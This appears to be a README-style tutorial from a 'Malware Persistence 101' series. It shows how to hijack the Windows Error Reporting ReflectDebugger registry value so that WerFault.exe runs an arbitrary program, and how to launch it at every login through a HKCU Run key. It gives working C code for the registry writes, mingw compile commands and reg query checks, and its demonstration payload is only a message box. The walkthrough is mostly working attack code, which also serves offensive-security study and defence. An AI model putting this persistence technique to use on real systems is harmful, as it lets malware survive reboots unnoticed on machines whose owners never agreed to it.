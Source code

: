 # 05 persistence - windows error reporting

While studying the behavior of Windows Error Reporting, I came across an interesting Registry path:     

`HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs`     

If we run command `WerFault.exe -pr <value>` it is read `HKLM\Software\Microsoft\Windows\Windows Error Reporting\Hangs\ReflectDebugger=<path_value>`. This command run `WerFault.exe` on mode which is called *"reflective debugger"* and it is very interesting. For example run `WerFault.exe -pr 1` and check it via Sysinternals Process Monitor:     

![img](./img/2022-11-02_04-48.png)    

![img](./img/2022-11-02_04-49.png)    

Add another filter:    

![img](./img/2022-11-02_04-51.png)    

As a result, we have a loophole for hijacking this value:     

![img](./img/2022-11-02_04-52.png)    

So, what is the trick? We can replace registry value `HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs\ReflectDebugger` with our evil application, because `WerFault.exe` not only read this value but also run it. And of course we can use it for persistence.    

For simplicity, as usually, my "evil" application is just `Hello, Prishtina!` messagbox (`hack.c`):     

```cpp
/*
 * Malware Persistence 101
 * hack.c
 * "Hello, Prishtina!" messagebox
 * author: @cocomelonc
*/
#include <windows.h>

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBoxA(NULL, "Hello, Prishtina!","=^..^=", MB_OK);
  return 0;
}
```

And then, create script which create registry key value with my "evil" app:    

```cpp
HKEY hkey = NULL;

// malicious app
const char* exe = "Z:\\hack.exe";

// hijacked app
const char* wf = "WerFault.exe -pr 1";

// set evil app
LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"SOFTWARE\\Microsoft\\Windows\\Windows Error Reporting\\Hangs", 0 , KEY_WRITE, &hkey);
if (res == ERROR_SUCCESS) {
  // create new registry key
  RegSetValueEx(hkey, (LPCSTR)"ReflectDebugger", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
  RegCloseKey(hkey);
}
```

Also, I used [one of the classic trick](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html) for persistence:     

```cpp
// startup
res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 0 , KEY_WRITE, &hkey);
if (res == ERROR_SUCCESS) {
  // create new registry key
  RegSetValueEx(hkey, (LPCSTR)"meow", 0, REG_SZ, (unsigned char*)wf, strlen(wf));
  RegCloseKey(hkey);
}
```

Let's go to see everything in action. Compile our "evil" app:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![img](./img/2024-05-06_22-10.png)   

and persistence script:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![img](./img/2024-05-06_22-12.png)    

Before run everything, first of all, check registry key and value:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs\" /s
reg query "HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs\ReflectDebugger" /s
```

Run "malware" for checking correctness:     

```powershell
.\hack.exe
```

![img](./img/2024-05-06_22-18.png)    

Also, check registry keys which used for persistence logic:     

```powershell
reg query "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /s
```

![img](./img/2024-05-06_22-19.png)    

Then, run `pers.exe`:    

```powershell
.\pers.exe
```

and check Windows Error Reporting registry key again:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows\Windows Error Reporting\Hangs" /s
```

![img](./img/2024-05-06_22-20.png)   

As you can see, key value is edited and we can check correctness via running:    

```powershell
WerFault.exe -pr 1
```

![img](./img/2024-05-06_22-23.png)    

Then, logout and login:    

![pers](./img/2022-11-02_05-13.png)    

and after a few seconds our `Hello, Prishtina!` messagebox is popped-up as expected:    

![img](./img/2024-05-06_22-25.png)     

You can check the properties of `hack.exe` via Process Hacker 2:     

![img](./img/2024-05-06_22-26.png)    

Also, pay attention that admin privileges required for hijacking Windows Error Reporting, but for persistence we use low-level privileges.     
